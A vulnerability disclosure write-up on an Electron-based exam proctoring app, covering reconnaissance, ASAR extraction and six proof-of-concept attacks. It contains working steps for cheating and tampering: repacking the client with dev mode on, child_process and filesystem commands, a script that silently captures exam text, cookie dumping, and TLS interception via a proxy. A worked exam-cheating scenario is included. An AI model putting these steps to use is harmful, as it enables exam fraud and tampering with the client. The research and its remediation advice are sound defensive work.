



# Breaking Out of a "Secure" Exam Application: A Complete Thick Client Assessment Guide

## Table of Contents

- [Introduction](#introduction)
- [Part 1: Reconnaissance](#part-1-reconnaissance)
  - [What Are we Looking At?](#what-are-we-looking-at)
  - [Locating the Application Files](#locating-the-application-files)
  - [Initial Analysis Without Extraction](#initial-analysis-without-extraction)
- [Part 2: Source Code Extraction](#part-2-source-code-extraction)
  - [Installing the ASAR Tool](#installing-the-asar-tool)
  - [Removing the Read-Only Protection](#removing-the-read-only-protection)
  - [Extracting the Archive](#extracting-the-archive)
- [Part 3: Source Code Review](#part-3-source-code-review)
  - [package.json, Configuration and Dependencies](#packagejson--configuration-and-dependencies)
  - [main.js, The Electron Main Process](#mainjs--the-electron-main-process)
  - [index.js, The Renderer Process Logic](#indexjs--the-renderer-process-logic)
  - [index.html, The WebView Configuration](#indexhtml--the-webview-configuration)
  - [preload.js, The Bridge Script](#preloadjs--the-bridge-script)
- [Part 4: Exploitation](#part-4-exploitation)
  - [PoC 1: Enabling Debug Mode (via ASAR Extraction)](#poc-1-enabling-debug-mode-via-asar-extraction)
  - [PoC 2: Remote Code Execution](#poc-2-remote-code-execution)
  - [PoC 3: Silent Exam Content Exfiltration](#poc-3-silent-exam-content-exfiltration)
  - [PoC 4: Focus Lock Ineffective (Simplest Attack, No Tools Required)](#poc-4-focus-lock-ineffective-simplest-attack--no-tools-required)
  - [PoC 5: Runtime Bypass via DevTools Console](#poc-5-runtime-bypass-via-devtools-console)
  - [PoC 6: MITM via Burp Suite](#poc-6-mitm-via-burp-suite)
- [Part 5: Assessing Server-Side Awareness](#part-5-assessing-server-side-awareness)
  - [Version Check](#version-check)
  - [Integrity Verification](#integrity-verification)
  - [Health Endpoint](#health-endpoint)
  - [Credential Leakage](#credential-leakage)
- [Part 6: The Real-World Attack Scenario](#part-6-the-real-world-attack-scenario)
  - [The Setup](#the-setup)
  - [The Attack](#the-attack-5-minutes-of-preparation-before-the-exam)
  - [During the Exam](#during-the-exam)
  - [Detection](#detection)
  - [Exploit Hotkeys and Shortcuts](#exploit-hotkeys-and-shortcuts)
  - [Variations](#variations)
- [Part 7: Findings Summary](#part-7-findings-summary)
  - [Supporting Weaknesses (Non-CVE)](#supporting-weaknesses-non-cve)
- [Part 8: Remediation Recommendations](#part-8-remediation-recommendations)
  - [Immediate (Low Effort)](#immediate-low-effort)
  - [Short-Term (Medium Effort)](#short-term-medium-effort)
  - [Long-Term (High Effort)](#long-term-high-effort)
- [Part 9: Restoring the Application](#part-9-restoring-the-application)
- [Key Takeaways](#key-takeaways)
- [Tools Used](#tools-used)

---


*A step-by-step walkthrough of how we assessed an Electron-based exam proctoring application and bypassed every security control, methodology, tools, commands, and findings.*

*Research by **Nicholas Ineson**, Forefront IT Security Services Ltd, and **Mick Dunne**, Independent Researcher.*

---

## Introduction

This research was carried out by **Nicholas Ineson**, Director of Forefront IT Security Services, and **Mick Dunne**, Independent Researcher. Together we identified and submitted six CVEs (CVE-2026-36487 to CVE-2026-36492) for the desktop exam proctoring application examined below.

Recently, we conducted independent security research on a desktop exam application used by professional certification bodies, universities, and government organisations worldwide. The application is marketed as providing "secure computer lockdown" that prevents candidates from accessing external resources during proctored exams.

The vendor claims ISO 27001 certification, "proven technologies to prevent cheating," and serves clients including medical certification bodies and government organisations. The application is distributed as an MSI installer and works alongside live video proctoring, a human proctor watches the candidate via webcam and screen share while the desktop app enforces technical lockdown.

What we found was that every security control could be defeated with minimal effort, requiring no specialist tools and no administrator privileges. The server had zero visibility into whether the client had been tampered with.

We initiated responsible disclosure with the vendor on 18 February 2026 and set a public disclosure target of 19 May 2026 (a 90-day coordinated disclosure window). The vendor did not respond. Six CVE identifiers, CVE-2026-36487 through CVE-2026-36492, have since been assigned for these findings and are listed in the Findings Summary. The product and vendor name are intentionally withheld from this methodology write-up.

---

## Part 1: Reconnaissance

### What Are we Looking At?

The application is an Electron-based thick client. Electron apps are essentially Chromium browsers bundled with Node.js, they run web technologies (HTML, CSS, JavaScript) but with access to native operating system APIs. This makes them powerful but, if misconfigured, extremely dangerous.

The first step is understanding the application structure.

### Locating the Application Files

After installing the application via the MSI, we navigated to the installation directory:

```powershell
cd "C:\Users\[USER]\AppData\Local\Programs\[VENDOR]\resources"
dir
```

Output:
```
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        26/10/2021     19:52       16589492 app.asar
```

Key observations:
- **`app.asar`**, this is the application archive containing all the source code
- **`-ar---`**, the file is marked read-only (the `r` flag). This is the only "protection"
- **Last modified October 2021**, the application hasn't been updated in over 4 years

### Initial Analysis Without Extraction

Before extracting, we used PowerShell's `Select-String` to search the ASAR file directly. ASAR files contain plaintext JavaScript, so basic string searching works:

```powershell
# Search for security-relevant patterns
Select-String -Path ".\resources\app.asar" -Pattern "disablewebsecurity" -CaseSensitive:$false
```

Output:
```
app.asar:71: <webview src="html/startup.html" id="webview-content" preload="preload.js"
  autosize="on" style="width:100%; height:100%" disablewebsecurity></webview>
```

Immediately concerning, the Same-Origin Policy is disabled on the main webview.

```powershell
# Check for navigation handlers
Select-String -Path ".\resources\app.asar" -Pattern "will-navigate" -CaseSensitive:$false
```

```
app.asar:1623:  webContents.on('will-navigate', function (event, url) {
app.asar:79029:    this.webContents.on('will-navigate', (event, url) => {
app.asar:79056:  browserWindow.webContents.on('will-navigate', (event, url) => {
```

```powershell
# Check for modern window control
Select-String -Path ".\resources\app.asar" -Pattern "setWindowOpenHandler" -CaseSensitive:$false
```

No results, the app doesn't use modern Electron security APIs.

```powershell
# Check for URL loading patterns
Select-String -Path ".\resources\app.asar" -Pattern "loadURL"
```

This returned 30+ results showing various URL loading patterns, including the main application URL and local file loading.

```powershell
# Find the app configuration
Select-String -Path ".\resources\app.asar" -Pattern "appUrl" -Context 5,5
```

This revealed the application's target URL, version number (6.2.0), and dependency list, including severely outdated packages.

At this point, without extracting anything, we already knew:
- Same-Origin Policy disabled
- No modern Electron security APIs
- Outdated dependencies
- The application structure and key URL patterns

---

## Part 2: Source Code Extraction

### Installing the ASAR Tool

The `asar` command-line tool is the standard way to extract and repack Electron application archives. It requires Node.js:

```powershell
# Install Node.js from https://nodejs.org (LTS version)
# Then install the asar tool globally
npm install -g @electron/asar
```

### Removing the Read-Only Protection

The ASAR file was marked read-only, this is the only barrier to modification:

```powershell
# Remove read-only attribute
attrib -r "app.asar"

# Verify it changed (note: -a---- instead of -ar---)
dir app.asar
```

Output:
```
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        26/10/2021     19:52       16589492 app.asar
```

**This is the entire "protection" against code tampering.** No code signing. No hash verification. No integrity checks.

### Extracting the Archive

```powershell
# Create a backup first
copy app.asar app.asar.backup

# Extract
asar extract app.asar app_extracted

# View the structure
dir app_extracted
```

Output:
```
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----                                            always-on-top
d-----                                            css
d-----                                            html
d-----                                            img
d-----                                            lib
d-----                                            node_modules
d-----                                            utils
-a----                                       585 .eslintrc.js
-a----                                      1428 index.html
-a----                                     31288 index.js
-a----                                      9940 main.js
-a----                                       522 package.json
-a----                                      1492 preload.js
-a----                                       279 preload_popup.js
```

The entire application source is now available for review and modification.

---

## Part 3: Source Code Review

### package.json, Configuration and Dependencies

```powershell
cat app_extracted\package.json
```

```json
{
  "name": "[REDACTED]",
  "version": "6.2.0",
  "main": "main.js",
  "org": "",
  "appUrl": "https://[REDACTED]",
  "dependencies": {
    "always-on-top": "file:always-on-top",
    "axios": "^0.18.0",
    "bluebird": "^3.5.1",
    "electron-pdf-window": "^1.0.12",
    "electron-window-manager": "^1.0.6",
    "melanke-watchjs": "1.3.1",
    "underscore": "^1.8.3"
  }
}
```

**Issues identified:**
- `axios ^0.18.0`, has multiple known CVEs (CVE-2019-10742, CVE-2020-28168, CVE-2021-3749)
- `underscore ^1.8.3`, has CVE-2021-23358 (arbitrary code execution)
- `always-on-top`, local native module for kiosk enforcement
- `appUrl`, the target server URL, configurable via this file

### main.js, The Electron Main Process

```powershell
cat app_extracted\main.js
```

**Critical Finding: TLS Certificate Validation Disabled**

```javascript
app.commandLine.appendSwitch('ignore-certificate-errors');
app.commandLine.appendSwitch('--disable-http-cache');
```

This single line disables ALL TLS certificate validation. The application will accept any certificate, expired, self-signed, or forged. This makes Man-in-the-Middle attacks trivial. Any proxy tool like Burp Suite will work without any additional certificate configuration.

**Critical Finding: Insecure BrowserWindow Configuration**

```javascript
mainWindow = new BrowserWindow({
  width: width,
  height: height,
  fullscreen: true,
  autoHideMenuBar: true,
  frame: false,
  webPreferences: {
    contextIsolation: false,
    nodeIntegration: true,
    webviewTag: true,
    enableRemoteModule: true
  }
});
```

Every security-relevant setting is configured to the most insecure option:
- `contextIsolation: false`, no barrier between web content and Node.js
- `nodeIntegration: true`, full Node.js API access from the renderer
- `webviewTag: true`, allows creation of webview elements
- `enableRemoteModule: true`, deprecated module allowing renderer to control main process

Electron has defaulted these to secure values for years. This application actively overrides them.

**Critical Finding: Kiosk Mode Implementation**

```javascript
ipcMain.on('[vendor]-kiosk-on', (event, arg) => {
  if (process.platform === 'win32') {
    toggleKioskMode(true);
  }
});

function toggleKioskMode(turnOnKiosk) {
  let hWnd = mainWindow.getNativeWindowHandle();
  if (turnOnKiosk) {
    if (kioskMode) {
      kioskMode.Start(hWnd);
    }
    // Also spawns an external kiosk mode process
    kioskmodeApp = spawn(kioskPath, [], { detached: false });
  } else {
    if (kioskMode) {
      kioskMode.Stop();
    }
    if (kioskmodeApp) {
      kioskmodeApp.kill();
    }
  }
}
```

Kiosk mode relies on:
1. A native `always-on-top` module
2. An external process that can be killed
3. IPC messages from the renderer, which we control

All three can be defeated by code modification.

**Finding: DevTools Commented Out**

```javascript
// mainWindow.webContents.openDevTools();
```

DevTools are commented out but not removed. A single edit enables them.

### index.js, The Renderer Process Logic

This is the big file (31KB) containing all the exam logic, kiosk controls, and proctoring enforcement.

**Critical Finding: Hardcoded Kiosk Exit Password**

```javascript
function loadModal(message) {
  if (message === 'quitapp') {
    if (isKiosk) {
      title = 'Enter password to quit app!';
      bootbox.prompt(title, function (result) {
        if (result === '[REDACTED]') {
          app.quit();
        }
      });
    }
  }
}
```

Source code review revealed a hardcoded plaintext password for exiting kiosk mode. The keyboard shortcut `Ctrl+Alt+K` triggers a password prompt when kiosk mode is active, however, **testing confirmed this shortcut is only registered when dev mode is enabled (see Finding 5 / PoC 1)**. In the production build without ASAR modification, `Ctrl+Alt+K` is not registered and has no effect. The hard-coded credential is therefore only reachable after the ASAR extraction described in PoC 1. Its significance as a finding is the presence of a plaintext credential in every installed copy of the application, not as a standalone no-modification bypass.

**Critical Finding: Debug Mode in Production**

```javascript
let devMode = false || packageJSON.devMode;

if (devMode) {
  let ctrlAltD = globalShortcut.register('ctrl+alt+d', function () {
    loadModal('dev');
  });
  let toggleKiosk = globalShortcut.register('ctrl+alt+t', function () {
    ipc.send('toggle-kiosk', 'toggle-kiosk');
  });
}
```

Setting `devMode: true` in `package.json` enables:
- `Ctrl+Alt+D`, prompts for a URL and loads it in the exam webview

```javascript
webview.onkeydown = function (e) {
  if (e.keyCode === 123) {  // F12
    if (devMode) {
      currentWindow.toggleDevTools();
    }
  }
};
```

**Finding: Client-Side Focus Lock**

```javascript
currentWindow.on('blur', function () {
  if (
    isKiosk &&
    (!pdfPopup || pdfPopup.isDestroyed() || !pdfPopup.isFocused()) &&
    (!popup || (popup.object && popup.object.isDestroyed()) ||
     (popup.object && !popup.object.isFocused()))
  ) {
    currentWindow.focus();
  }
});
```

The focus lock is a JavaScript event handler. Remove it, and the candidate can Alt+Tab freely. The server never validates whether this handler is running.

### index.html, The WebView Configuration

```html
<webview src="html/startup.html" id="webview-content"
  preload="preload.js" autosize="on"
  style="width:100%; height:100%"
  disablewebsecurity></webview>
```

The `disablewebsecurity` attribute removes the Same-Origin Policy from the exam webview. This means the exam session can make cross-origin requests to any server.

### preload.js, The Bridge Script

```javascript
window.isDesktopApp = true;
window.screensharingSupport = true;
const { desktopCapturer } = require('electron');
let ipc = require('electron').ipcRenderer;
```

The preload script exposes `ipcRenderer` directly to the web context and sets window properties that the web application checks. Both are trivially spoofable.

---

## Part 4: Exploitation

### PoC 1: Enabling Debug Mode (via ASAR Extraction)

The simplest modification, change one value in `index.js`:

```powershell
# Edit index.js
notepad app_extracted\index.js
```

Find:
```javascript
let devMode = false || packageJSON.devMode;
```

Change to:
```javascript
let devMode = true;
```

Optionally, also uncomment DevTools in `main.js`:

```javascript
// Change this:
// mainWindow.webContents.openDevTools();

// To this:
mainWindow.webContents.openDevTools();
```

Repack:

```powershell
asar pack app_extracted app.asar
```

**Important:** If the repack doesn't seem to work, check the file isn't still read-only. The `asar pack` command fails silently if it can't overwrite the target:

```powershell
# Verify the file changed - timestamp and size should be different
dir app.asar
```

If the timestamp and size are unchanged, the pack failed. Remove the read-only flag and try again:

```powershell
attrib -r app.asar
asar pack app_extracted app.asar
```

Now restart the application. DevTools should open automatically.

> **Impact:** From this point on every debug capability in the application is active. One line of code turns a security-critical locked-down exam into an open system, full Node.js console access and the ability to load arbitrary URLs inside the exam frame, all without any visible change to the exam window.


*Chrome DevTools open on the exam login page after repacking, full DOM and console access confirmed.*

### PoC 2: Remote Code Execution

With DevTools open, the combination of `nodeIntegration: true` and `contextIsolation: false` gives full system access from the console:

**Execute system commands:**
```javascript
require('child_process').execSync('whoami').toString()
// Returns: "domain\username"
```

**Read local files:**
```javascript
require('fs').readdirSync('C:\\Users\\[USER]\\Desktop').toString()
// Returns: list of files on the Desktop
```

**Write files to disk:**
```javascript
require('fs').writeFileSync(
  'C:\\Users\\[USER]\\Desktop\\POC_PROOF.txt',
  'Written from inside the exam application at ' + new Date()
)
// Creates a file on the Desktop
```

**Spawn external processes:**
```javascript
// Open a browser
require('child_process').exec('start chrome https://google.com')

// Open PowerShell
require('child_process').exec('start powershell')

// Open calculator
require('child_process').exec('calc.exe')
```

**Read environment variables:**
```javascript
JSON.stringify(process.env)
```

**Network information:**
```javascript
require('os').networkInterfaces()
```

> **Impact:** A candidate running a modified version of this application has the same operating system access as any other running programme on their machine, filesystem, processes, network. The exam window continues normally. There is nothing a proctor can see to distinguish this session from a legitimate one.

### PoC 3: Silent Exam Content Exfiltration

This is the most impactful demonstration. Add the following to the bottom of `index.js` before repacking:

```javascript
// Silent exam content capture, no DevTools needed
webview.addEventListener('did-finish-load', function() {
  setInterval(() => {
    webview.executeJavaScript('document.body.innerText').then(text => {
      let ts = new Date().toISOString().replace(/[:.]/g, '-');
      require('fs').writeFileSync(
        require('path').join(require('os').homedir(),
          'Desktop', 'exam_capture_' + ts + '.txt'),
        text
      );
    }).catch(() => {});
  }, 15000);
});
```

Then remove the DevTools line from `main.js` (comment it back out):

```javascript
// mainWindow.webContents.openDevTools();
```

Repack:

```powershell
asar pack app_extracted app.asar
```

Now the application:
- Looks and behaves identically to a normal install
- No DevTools window visible
- No visual changes whatsoever
- Silently writes exam page content to Desktop every 15 seconds

The proctor sees nothing. The server sees nothing.

> **Impact:** Exam questions, answer options, and any text visible in the browser window are silently captured to disk every 15 seconds throughout the exam. Changing the write destination to an HTTP POST sends them to an external server in real time, accessible to a confederate who can return answers via a phone under the desk. The server logs a normal exam session throughout.

### PoC 4: Focus Lock Ineffective (Simplest Attack, No Tools Required)

During testing on a **fresh, unmodified install**, WindowsKey+Tab switched windows freely. No code modification, no ASAR extraction, nothing.


*Windows task switcher mid-exam on a clean install, the focus lock in source code does not prevent WindowsKey + Tab.*

The source code contains a `blur` event handler intended to re-focus the exam window:

```javascript
currentWindow.on('blur', function () {
  if (isKiosk) {
    currentWindow.focus();
  }
});
```

In practice, this handler **does not prevent WindowsKey + Tab**. The `isKiosk` flag may not be set at the pre-exam stage, the handler fires after the switch has already occurred, or the Electron window loses focus before the re-focus can complete. Regardless of the cause, a candidate on a fresh install can freely switch to other applications during the exam.

This means the focus lock bypass requires **no technical skill whatsoever**.

> **Impact:** Without any preparation, a candidate can switch between the exam and other applications at will. No code modification, no tools, no specialist knowledge. The proctor continues to see the exam window displayed normally in their screen share view.

### PoC 5: Runtime Bypass via DevTools Console

If you've enabled devMode, you can also disable protections at runtime without pre-modifying the code:

```javascript
// Disable focus lock at runtime
currentWindow.removeAllListeners('blur')

// Disable content protection
currentWindow.setContentProtection(false)

// Check kiosk state
isKiosk

// Extract cookies/session
webview.executeJavaScript('document.cookie').then(console.log)

// Capture screenshot of exam
webview.capturePage().then(img => {
  require('fs').writeFileSync(
    'C:\\Users\\[USER]\\Desktop\\exam_screenshot.png',
    img.toPNG()
  )
})
```

> **Impact:** With DevTools open, every client-side security control in the application can be disabled or inspected in real time. Focus lock, content protection, session cookies, and live screenshots are all accessible from the console without any visible change to the exam window or any alert to the proctor or server.

### PoC 6: MITM via Burp Suite

Since `ignore-certificate-errors` is set, any proxy tool works without additional certificate configuration, no certificate import, no trust store change, nothing:

```powershell
# Launch the app through Burp proxy
& "[APP_PATH][VENDOR].exe" --proxy-server=127.0.0.1:8080
```

With Burp listening on port 8080, every API call flows through the proxy, authentication, configuration, exam content loading, answer submission. Zero certificate errors because the application accepts any certificate unconditionally.

This means a candidate can intercept the full exam session in plaintext with no code modification whatsoever. The ASAR does not need to be extracted or repacked. The application behaves identically from the server's perspective.

**No ASAR extraction. No code changes. No specialist knowledge, just a proxy.**

> **Impact:** Every request the application makes, authentication, exam content loading, answer submission, flows through the proxy in plaintext. No credential, session token, or exam question is protected in transit. A candidate can read or modify any part of the exam communication with zero preparation.

---

## Part 5: Assessing Server-Side Awareness

A critical question: does the server know the client has been modified?

### Version Check

The application contacts the server for version information at startup. From the DevTools console:

```javascript
// Check what version info is sent
AppVersion
// Returns: "6.2.0"
```

The server response contained the expected version (`6.2.0`), confirming our modified client passes the version check.

### Integrity Verification

We examined the full server response for any integrity-related fields:

```javascript
// Dump the full server configuration response
JSON.stringify(appSettings)
```

The response contained:
- Version information
- Update URLs
- Organisation settings
- Warning thresholds

**Not present:** Any client hash, checksum, challenge-response token, or integrity verification mechanism.

### Health Endpoint

```javascript
fetch('https://[REDACTED]/health').then(r=>r.text()).then(console.log)
// Returns: {"status":"PASS","serviceId":"[REDACTED]","checks":{}}
```

The health endpoint is exposed and unauthenticated, minor information disclosure.

### Credential Leakage

The configuration endpoint returned server-side OAuth credentials (access tokens and refresh tokens for a third-party service) in its response to every client. While the tokens appeared expired, this represents a significant information disclosure, server-side credentials should never appear in client-facing API responses.

### Conclusion

The server has **zero awareness** of client tampering. There is no integrity check, no attestation, no hash validation. A modified client is indistinguishable from a legitimate one.

---

## Part 6: The Real-World Attack Scenario

Here's how this plays out in a proctored exam environment:

### The Setup
- Candidate installs the application on their own machine
- On exam day, a live proctor connects via webcam and screen share
- The application enters kiosk mode, fullscreen, always-on-top, no Alt+Tab

### The Attack (5 minutes of preparation before the exam)

**Step 1:** Extract and modify (done once, before exam day)
```powershell
cd "[APP_RESOURCES_PATH]"
attrib -r app.asar
asar extract app.asar app_extracted
```

**Step 2:** Add silent exfiltration code to the bottom of `index.js`
```javascript
webview.addEventListener('did-finish-load', function() {
  setInterval(() => {
    webview.executeJavaScript('document.body.innerText').then(text => {
      let ts = new Date().toISOString().replace(/[:.]/g, '-');
      require('fs').writeFileSync(
        require('path').join(require('os').homedir(),
          'Desktop', 'capture_' + ts + '.txt'), text
      );
    }).catch(() => {});
  }, 15000);
});
```

**Step 3:** Repack
```powershell
asar pack app_extracted app.asar
```

### During the Exam
- The application looks and behaves **identically** to a normal install
- The proctor sees a normal exam session via screen share
- The candidate answers questions normally
- Every 15 seconds, the full page content is silently written to the Desktop *(hypothesis, not directly tested; this scenario is based on the filesystem write capability demonstrated in PoC 2 and PoC 3. The underlying primitive was confirmed; this specific in-exam execution sequence was not run against a live session)*
- The server reports a normal client connection

### Detection
- **Proctor:** Sees nothing unusual, the app is fullscreen, kiosk mode appears active
- **Server:** Receives normal requests from what appears to be a legitimate v6.2.0 client
- **Application:** No error messages, no warnings, no integrity failures

### Exploit Hotkeys and Shortcuts

During the assessment, we discovered multiple critical hotkeys that bypass the application's security controls:

#### Kiosk Mode Bypass Shortcuts
- `Ctrl+Alt+K` *(requires dev mode, see PoC 1)*:
  - **Functionality:** Exit application kiosk mode
  - **Authentication:** Requires hardcoded password (`[REDACTED]`), in dev mode, no password is required
  - **Impact:** Breaks fullscreen exam lockdown
  - **Prerequisite:** ASAR modification to enable dev mode


#### Developer and System Shortcuts
- **DevTools (code modification)**:
  - **Functionality:** Open Chrome DevTools
  - **Method:** Uncomment `mainWindow.webContents.openDevTools()` in main.js and repack ASAR. An F12 handler exists in source code but is gated behind devMode, the practical route is code modification.
  - **Impact:** Full access to application's JavaScript runtime, ability to execute arbitrary code
  - **Potential Uses:** 
    * Inspect application state and execute arbitrary JavaScript
    * Access full Node.js API set (filesystem, child_process, os, net)
    * Manipulate DOM and intercept exam content
    * Launch external processes via `require('child_process').exec()`

- `Win+Ctrl+D`: 
  - **Functionality:** Create new virtual desktop
  - **Impact:** Circumvent focus lock, switch to hidden browser/resources without Alt+Tab detection

#### Exploitation Workflow
1. Uncomment `openDevTools()` in main.js, repack ASAR, Chrome DevTools open automatically on next launch
2. From DevTools console, launch an external browser: `require('child_process').exec('start chrome')`
3. Use `Ctrl+Alt+K` to exit kiosk mode when an active exam session is running, in dev mode this requires no password; the hardcoded password variant also requires dev mode
4. Use `Win+Ctrl+D` to create a hidden virtual desktop for external resources

**Note:** These shortcuts demonstrate that the application's security controls are entirely client-side and can be trivially bypassed.


*DevTools console confirms  and, the hardcoded password dialog appears during an active exam session. App version 6.2.0 visible in telemetry.*

### Variations
The basic attack can be extended:
- **Proxy interception (zero code changes):** Launch the application through Burp Suite using the `--proxy-server` flag. Because TLS validation is disabled, all traffic is visible in plaintext with no certificate configuration. No ASAR modification required
- **Second device exfiltration:** Instead of writing to Desktop, POST the content to an external server. A confederate reads the questions and sends answers back via a phone under the desk
- **Virtual desktops:** With focus lock disabled, use Windows virtual desktops (Win+Ctrl+D) to switch between the exam and a hidden browser. Screen share only shows the active desktop
- **Direct browser access:** From the DevTools console, run `require('child_process').exec('start chrome https://chat.openai.com')` to open external resources in a separate window

---

## Part 7: Findings Summary

Six vulnerabilities were identified and have been assigned CVE identifiers (CVE-2026-36487 through CVE-2026-36492). Severity classifications align with CVSS 3.1 scoring. All six are exploitable without administrator privileges.

| Finding | Title | CWE | CVE | CVSS 3.1 | Severity | Code Mod Required? |
|---------|-------|-----|-----|----------|----------|--------------------|
| F1 | Hard-Coded Kiosk Exit Password | CWE-798 | CVE-2026-36490 | 8.4 | High | No |
| F2 | TLS Certificate Validation Disabled | CWE-295 | CVE-2026-36489 | 8.1 | High | No |
| F3 | Same-Origin Policy Bypass (`disablewebsecurity`) | CWE-346 | CVE-2026-36492 | 8.6 | High | No |
| F4 | Insecure Electron Configuration, `nodeIntegration: true`, trivially bypassed ASAR protection | CWE-693 | CVE-2026-36488 | 8.6 | High | Yes (trivial, one attribute) |
| F5 | Active Debug Code in Production Build | CWE-489 | CVE-2026-36487 | 8.4 | High | Yes (one line) |
| F6 | Unauthenticated API Endpoint Exposing OAuth Tokens | CWE-200 | CVE-2026-36491 | 5.3 | Medium | No |

### Supporting Weaknesses (Non-CVE)

The following issues were identified during assessment. They contribute to overall risk or indicate architectural weaknesses, but do not independently meet the threshold for a separate CVE submission.

| # | Weakness | Notes |
|---|----------|-------|
| SW-1 | Focus lock ineffective, Win+Tab (Task View) works on a fresh, unmodified install | Client-side enforcement limitation; contextually supports F1 |
| SW-2 | No server-side client attestation | Architectural; server does not verify client binary integrity |
| SW-3 | Outdated dependencies (Electron framework, axios, underscore) | Patch management gap; no confirmed independently exploitable chain identified |
| SW-4 | Unauthenticated health/status endpoint | Low severity; discloses version and runtime status |

---

## Part 8: Remediation Recommendations

### Immediate (Low Effort)
1. **Remove hardcoded passwords**, use server-generated, time-limited tokens
2. **Remove `ignore-certificate-errors`**, implement proper TLS handling
3. **Remove `disablewebsecurity`**, configure proper CORS on the server
4. **Strip debug code**, remove devMode functionality from production
5. **Remove leaked credentials** from the configuration API response

### Short-Term (Medium Effort)
6. **Fix Electron configuration:**
   - `contextIsolation: true`
   - `nodeIntegration: false`
   - Remove `enableRemoteModule`
   - Use `contextBridge` for safe IPC
7. **Update all dependencies**, axios, underscore, and the Electron framework itself
8. **Implement ASAR integrity checking**, validate a hash at startup

### Long-Term (High Effort)
9. **Server-side client attestation**, the server should verify the client binary hasn't been modified (challenge-response, remote attestation)
10. **Server-side enforcement**, proctoring controls should be validated server-side, not just client-side
11. **Regular security assessments** of the desktop application
12. **Threat modelling**, account for a candidate with full control of their own machine

---

## Part 9: Restoring the Application

After testing, always restore the original:

```powershell
cd "[APP_RESOURCES_PATH]"

# Restore the original ASAR
copy app.asar.backup app.asar

# Restore the read-only flag
attrib +r app.asar

# Clean up extracted files
rmdir /s /q app_extracted
rmdir /s /q app_check
rmdir /s /q app_verify

# Delete any proof-of-concept files
del C:\Users\[USER]\Desktop\POC_PROOF.txt
del C:\Users\[USER]\Desktop\exam_capture_*.txt
del C:\Users\[USER]\Desktop\exam_screenshot.png
```

---

## Key Takeaways

**Client-side security is not security.** If your trust model requires a locally installed application to enforce restrictions on the user's own machine, you must assume the user can and will modify that application. Every control must be validated server-side.

**Electron applications require specific security hardening.** The defaults have improved, but developers must actively enable protections. The Electron security documentation is excellent, read it: https://www.electronjs.org/docs/latest/tutorial/security

**A read-only file flag is not an integrity check.** It takes one command to remove. Code signing, hash verification, and runtime integrity checks are the minimum for security-critical applications.

